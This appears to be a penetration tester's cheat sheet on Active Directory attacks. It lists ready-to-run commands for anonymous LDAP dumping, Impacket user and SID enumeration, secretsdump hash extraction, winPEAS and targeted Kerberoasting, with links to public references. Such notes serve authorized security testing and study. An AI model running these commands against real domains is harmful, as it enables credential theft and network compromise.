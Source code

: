 # Note: Be careful with brute forcing AD as you can disable user accounts due to the Account Lockout Policy. 


Anonymous Credential LDAP Dumping: 

- ldapsearch -LLL -x -H ldap://[domain fqdn] -b ‘’ -s base ‘(objectclass=*)’

Impacket GetADUsers.py (Must have valid credentials)

- GetADUsers.py -all [domain\User] -dc-ip [DC_IP]

Impacket lookupsid.py:

- /usr/share/doc/python3-impacket/examples/lookupsid.py username:password@172.21.0.0

Impacket Secretdump:

python3 secretdump.py 'breakme.local/Administrator@172.21.0.0' -just-dc-user anakin

Windapsearch:

https://github.com/ropnop/windapsearch 

- python3 windapsearch.py -d host.domain -u domain\\ldapbind -p PASSWORD -U



## References: 

- PayloadAllTheThings: 
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#most-common-paths-to-ad-compromise

- Attacking Active Directory: 0 to 0.9:
https://zer1t0.gitlab.io/posts/attacking_ad/

- hacktricks AD link: 
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology


### From Wacoms.github.io
Syntax: 
Command
- link
- link

[winpeas.exe cmd > output.txt](https://wadcoms.github.io/wadcoms/winPEAS/)
-   [Privilege Escalation](https://wadcoms.github.io/wadcoms/winPEAS/#PrivEsc)
 -   [Shell](https://wadcoms.github.io/wadcoms/winPEAS/#Shell)
 -   [Windows](https://wadcoms.github.io/wadcoms/winPEAS/#Windows)

[python3 targetedKerberoast.py -d test.local -u john -p password123 --dc-ip 10.10.10.1](https://wadcoms.github.io/wadcoms/targetedKerberoast/)
-   [Exploitation](https://wadcoms.github.io/wadcoms/targetedKerberoast/#Exploitation)
 -   [Username](https://wadcoms.github.io/wadcoms/targetedKerberoast/#Username)
 -   [Password](https://wadcoms.github.io/wadcoms/targetedKerberoast/#Password)
 -   [Kerberos](https://wadcoms.github.io/wadcoms/targetedKerberoast/#Kerberos)
 -   [NTLM](https://wadcoms.github.io/wadcoms/targetedKerberoast/#NTLM)
 -   [Linux](https://wadcoms.github.io/wadcoms/targetedKerberoast/#Linux)
